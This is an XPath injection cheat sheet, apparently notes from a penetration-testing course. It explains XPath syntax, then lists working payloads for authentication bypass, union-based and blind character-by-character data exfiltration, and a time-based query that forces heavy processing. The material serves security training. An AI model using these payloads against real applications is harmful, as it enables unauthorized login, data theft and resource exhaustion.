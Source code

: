 ## XPath Injection

#### XPath Syntax

Nodes:

|Query|Explanation|
|---|---|
|`module`|Select all `module` child nodes of the context node|
|`/`|Select the document root node|
|`//`|Select descendant nodes of the context node|
|`.`|Select the context node|
|`..`|Select the parent node of the context node|
|`@difficulty`|Select the `difficulty` attribute node of the context node|
|`text()`|Select all text node child nodes of the context node|

Predicates:

|Query|Explanation|
|---|---|
|`/academy_modules/module[1]`|Select the first `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()=1]`|Equivalent to the above query|
|`/academy_modules/module[last()]`|Select the last `module` child node of the `academy_modules` node|
|`/academy_modules/module[position()<3]`|Select the first two `module` child nodes of the `academy_modules` node|
|`//module[tier=2]/title/text()`|Select the `title` of all modules where the `tier` element node equals `2`|
|`//module/author[@co-author]/../title`|Select the `title` of all modules where the `author` element node has a `co-author` attribute node|
|`//module/tier[@difficulty="medium"]/..`|Select all modules where the `tier` element node has a `difficulty` attribute node set to `medium`|

Predicate Operands:

|Operand|Explanation|
|---|---|
|`+`|Addition|
|`-`|Subtraction|
|`*`|Multiplication|
|`div`|Division|
|`=`|Equal|
|`!=`|Not Equal|
|`<`|Less than|
|`<=`|Less than or Equal|
|`>`|Greater than|
|`>=`|Greater than or Equal|
|`or`|Logical Or|
|`and`|Logical And|
|`mod`|Modulus|

Wildcards:

|Query|Explanation|
|---|---|
|`node()`|Matches any node|
|`*`|Matches any `element` node|
|`@*`|Matches any `attribute` node|

Union:

|Query|Explanation|
|---|---|
|<code>//module[tier=2]/title/text() &#124; //module[tier=3]/title/text()</code>|Select the title of all modules in tiers `2` and `3`|


#### Authentication Bypass

|Description|Username|Query|
|---|---|---|
|Regular Authentication|`htb-stdnt`|`/users/user[username/text()='htb-stdnt' and password/text()='295362c2618a05ba3899904a6a3f5bc0']`|
|Bypass Authentication with known username|`admin' or '1'='1`|`/users/user[username/text()='admin' or '1'='1' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by position|`' or position()=1 or '`|`/users/user[username/text()='' or position()=1 or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|
|Bypass Authentication by substring|`' or contains(.,'admin') or '`|`/users/user[username/text()='' or contains(.,'admin') or '' and password/text()='21232f297a57a5a743894a0e4a801fc3']`|

#### Data Exfiltration

Unrestricted:
- Leak entire XML document via union injection: `| //text()`

Restricted:
- Determine schema depth via chain of wildcards `/*[1]`
- iterate through XML schema by increasing the indices to exfiltrate the entire document step-by-step

#### Blind Data Exfiltration

|Description|Payload|Query|
|---|---|---|
|Exfiltrating Node Name's Length|`invalid' or string-length(name(/*[1]))=1 and '1'='1`|`/users/user[username='invalid' or string-length(name(/*[1]))=1 and '1'='1']`|
|Exfiltrating Node Name|`invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']`|
|Exfiltrating Number of Child Nodes|`invalid' or count(/*[1]/*)=1 and '1'='1`|`/users/user[username='invalid' or count(/*[1]/*)=1 and '1'='1']`|
|Exfiltrating Value Length|`invalid' or string-length(/users/user[1]/username)=1 and '1'='1`|`/users/user[username='invalid' or string-length(/users/user[1]/username)=1 and '1'='1']`|
|Exfiltrating Value|`invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1`|`/users/user[username='invalid' or substring(/users/user[1]/username,1,1)='a' and '1'='1']`|

#### Time-based

Force the web application to iterate over the entire XML document exponentially:

```xpath
count((//.)[count((//.))])
```

Determine whether the first letter of the "username" is "a" based on the time it takes: if it is, the query will utilize a significant processing time, otherwise, it won't.

```xpath
invalid' or substring(/users/user[1]/username,1,1)='a' and count((//.)[count((//.))]) and '1'='1
```
